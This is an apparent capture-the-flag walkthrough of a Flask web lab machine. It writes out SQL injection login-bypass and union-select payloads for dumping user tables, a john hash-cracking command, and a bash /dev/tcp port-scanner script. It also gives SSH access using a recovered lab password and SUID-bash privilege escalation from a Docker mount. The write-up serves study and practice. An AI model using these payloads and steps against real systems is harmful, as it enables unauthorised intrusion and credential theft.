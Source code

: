 1. Enumerate ports

2. Obtain information about the page hosted in that IP with the command whatweb

3. Try to enumerate more info with the Nmap script http-enum

4. Once you've tried to enumerate everything in the web-app you can now try to do somethings in the page itself

5. The first thing you can try is to do an SQL injection in the login page by sending a normal email and intercept the request in order to change the normal email into an SQL query like this: hello@hello.com' or 1=1 -- -

6. This sends you to the admin control page but it requests you a password in order to enter the flask management panel

7. Once you've exploited the login this way you can try another way by adding " ' order by 4-- -" or other numbers until you hit the maximum number of columns

8. Now you can try to insert numbers by adding ' union select 1, 2, 3, 4 

9. You'll see that the number 4 reflects in the server response, so, you can now try to exploit it via a [SSTI - Server Side Template Injection](</General Info/Tecnologias Web/Ataques/SSTI - Server Side Template Injection.md>) attack

10. As a PoC send something like ' union select 1, 2, 3, {{7\*7}}-- -

11. Because this didn't work out as expected now you can try a common SQL injection enumeration like:
	`' union select 1, 2, 3, table_name from information_schema.tables-- -` - List all tables from all DBs
	`' union select 1, 2, 3, schema_name from information_schema.schemata-- -` - List all DBs
	`' union select 1, 2, 3, table_name from information_schema.tables where table_schema = "main"-- -` - List all tables from the main DB
	`' union select 1, 2, 3, column_name from information_schema.columns where table_schema = "main" and table_name = "user"-- -` - List all the columns from the main DB and the user table
	`' union select 1, 2, 3, {name or id or password or email} from user where {name or id or password or email} = {"admin" or 1}-- -` - List all the content of the user table 1 by 1
	`' union select 1, 2, 3, group_concat(id,":",name,":",password,":", email) from user where {search criteria}-- -` - List all the content of the user table one user per line

12. Once you've obtained the password hashed you can try to identify it with hash-identifier and try to crack it

13. The way to crack it is by running the following command: john --wordlist=__{WORDLIST}__ hash --format=Raw-MD5

14. Now that you've got the password you can finally enter the flask admin panel

15. Going into the page you will come across the used edit panel that has the interesting name parameter that is susceptible to a SSTI attack

16. Try to run the attack to gain remote code execution, and eventually a reverse shell, listed in [SSTI - Server Side Template Injection](</General Info/Tecnologias Web/Ataques/SSTI - Server Side Template Injection.md>).

17. Now that you've a reverse-shell you can see if you're already in the victim's machine by using the command "hostname -I"

18. Now that we know we are in a container we can try to list interesting IPs with `route -n` 

19. Because there is an IP that ends with 1 we have to hack it to enter in the original user machine

20. Use `mount` to see all the mounts in docker and figure out that the directory that contains the flag is, indeed, a mount from the user's machine to the home directory

21. In this machine particularly you can see with `mount | grep home` that the /dev/sda1 is being mounted in /home/augustus

22. One of the last steps is to write a script to enumerate all the open ports in the victim's original machine by creating an script that does the same job as nmap:

```
#!/bin/bash

function ctrl_c(){
        echo -e "\n\n[-] Exiting...\n"
        tput cnorm; exit 1
}

trap ctrl_c INT

tput civis
for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Port $port open" &
done;wait
tput cnorm
```

>Basic explanation of the script above:
>
function ctrl_c : Is the function called if the program detects an INT signal such as "Ctrl + C", basically what this function does is echo out a message, make the mouse reappear and exit with a 1 in the exit code. 1 in the exit code is unsuccessful and 0 successful
>
trap ctrl_c INT : tell the app that when it recieves an INT signal execute the specified function
>
tput civis and tput cnorm : This command are basically to tell the app to disappear and appear the mouse respectively
>
for port in $(seq 1 65535); do : This part of the script tells the app to make the port variable have the the value 1, 2, 3, etc..
>
timeout 1 : Tells the app to kill the process if its duration is more than 1 second
>
bash -c "__{COMMAND}__" : Makes the bash shell execute the following command
>
echo ' ' > /dev/tcp/{IP}/$port : Sends an empty string to the machine in the ip specified and in the port that the port variable has that cycle
>
2>/dev/null : Tells the app to redirect all the error messages to /dev/null
>
&& echo "\[+] Port $port open" & : Makes the script only run the message if the exit code of the echo is 0. The final & makes the app use multiple threads to run the process of discovering ports
>
done; wait : done is to tell the app to finish the for iteration and wait is to make the app wait till the end of all the active threads

23. Now that we've created the shell file we can run the following command to make the shell convert the file into base64 and copy it into the clipboard to later on paste it in the victim's machine. The console command is explained in [Pass files easily from one shell to other](</General Info/Shell/Pass files easily from one shell to other.md>).

24. We've seen that the port 22 is open, so, because we've some credentials we can try to enter in the SSH service of the main machine with the user leaked in the mount "augustus" with the following command: `ssh augustus@172.19.0.1` and try the password "superadministrator" later on

25. We've gained access so we now can list all the machine to see if we're finally on the machine with the following commands `hostname -I` and `ip a`. See [Things to enumerate (Machine)](</General Info/Enumeration/Things to enumerate (Machine).md>)

26. After trying a lot of things the way to escalate privileges is to copy the bash to /home/augustus and, from the mount, give that file SUID permissions and make it root property with `chown root:root bash` and `chmod 4755 bash`, enter augustus profile again and run `./bash -p`